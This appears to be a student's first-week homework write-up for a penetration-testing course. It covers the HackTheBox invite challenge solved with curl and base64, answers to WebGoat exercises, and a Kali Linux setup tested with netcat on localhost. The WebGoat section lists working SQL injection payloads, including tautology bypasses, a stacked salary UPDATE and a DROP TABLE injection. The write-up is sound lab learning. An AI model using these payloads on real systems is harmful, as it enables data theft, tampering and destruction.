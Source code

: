 # H1

Solutions to first week assignments.

## Table of Contents

* [a) Get invited to HackTheBox](#a-get-invited-to-HackTheBox)
* [b) Install WebGoat and login](#b-install-webgoat-and-login)
* [c) Solve WebGoat assignments](#c-solve-webgoat-assignments)
* [d) Install Kali Linux and test it out](#d-install-kali-linux-and-test-it-out)
* [References](#references)

---

## a) Get invited to HackTheBox

* opened developer console and found the first clue, that pointed me to search interesting Javascript file
* found a file pretty fast named inviteapi.min.js, that had an obfuscated Javascript function. I didn't try to solve the obfuscation and just tried the makeInviteCode function, which was the next clue. It guided me to make POST HTTP request to /api/invite/how/to/generate
* I did a POST HTTP request with curl to /api/invite/how/to/generate and received BASE64 encoded string

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/how/to/generate
  ```

* I opened the encoded string like this and received the next clue

  ```shell
  echo "SW4gb3JkZXIgdG8gZ2VuZXJhdGUgdGhlIGludml0ZSBjb2RlLCBtYWtlIGEgUE9TVCByZXF1ZXN0IHRvIC9hcGkvaW52aXRlL2dlbmVyYXRl" | base64 -d
  ```

* clue was: "In order to generate the invite code, make a POST request to /api/invite/generate"

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/generate
  ```

* call gave me another BASE64 encoded string, which I opened and it gave me the code to log in to HackTheBox

  ```shell
  echo "QVNLQ1ItTkNTRk0tR0RRQ0UtQklQUUQtTVlSVUI" | base64 -d
  ```

---

## b) Install WebGoat and login

I downloaded [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/), ran it and managed to log in.

---

## c) Solve WebGoat assignments

* HTTP Basics
  - The HTTP Basics assignment was quite easy. Just needed to open developer console and view the source code to see that they validated, that posted magic number was 55
* Developer tools
  - Developer tools opens in Opera(MacOS) with command + options + i keyboard shortcut
  - CTRL+L clears console in Opera's console
  - calling the webgoat.customjs.phoneHome() function in console printed me the required output with -1182196480 phone number
  - opening the network tab in developer console and sending the request shows a request called network, which had a header with networkNum named form data with value of 32.69182959869092
* CIA Triad
  - 1 - 3
  - 2 - 1
  - 3 - 4
  - 4 - 2
* A1 Injection (intro)

  - select Bobs department

    ```sql
    SELECT department FROM Employees WHERE first_name = 'Bob' and last_name = 'Franco';
    ```

  - update Tobi Barnett's department

    ```sql
    UPDATE employees SET department = 'Sales' WHERE userid IN (select userid from employees WHERE first_name = 'Tobi' and last_name = 'Barnett')
    ```

  - add column to table

    ```sql
    ALTER TABLE employees ADD phone varchar(20);
    ```

  - grant alter table to

    ```sql
    GRANT ALTER TABLE TO UnauthorizedUser
    ```

  - injection

    ```sql
    SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
    ```

  - numeric sql injection: use numeral instead of strings

    ```sql
    SELECT * From user_data WHERE Login_Count = 1 and userid = 1 or 1 = 1
    ```

  - confidentiality

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '1' OR '1' = '1';
    ```

  - integrity: close the auth_tan query and inject and update clause

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '"'; UPDATE employees SET salary = 100000 WHERE auth_tan = '"3SL99A"'
    ```

  - availability: close the select query and add a drop clause which uncomments the end of the select clause

    ```sql
    SELECT * FROM access_log where action = '%'; DROP TABLE access_log --%;
     ```

---

## d) Install Kali Linux and test it out

I created a Vagrant setup ([Vagrantfile](../Vagrantfile)), that sets up a development environment for me. It runs WebGoat in Docker and Kali Linux on VirtualBox using Vagrant.

I tried netcat to test if my local machine had port 53 open.

    nc -v -w 3 localhost 53

The port was closed as suspected: <i><b>localhost [127.0.0.1] 53 (domain) : Connection refused</i></b>. I wanted to scan the udp port as well to see what does it report.

    nc -v -w 3 -u localhost 53

And interestinly it reported, that the 53/udp port was open: <i><b>localhost [127.0.0.1] 53 (domain) open</i></b>. The port is for local DNS responses, so it should be open.

---

## References

* [terokarvinen.com, ict4tn027-3005](https://terokarvinen.com/2021/hakkerointi-kurssi-tunkeutumistestaus-ict4tn027-3005/)
* [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/)
* [My Vagrantfile](../Vagrantfile)
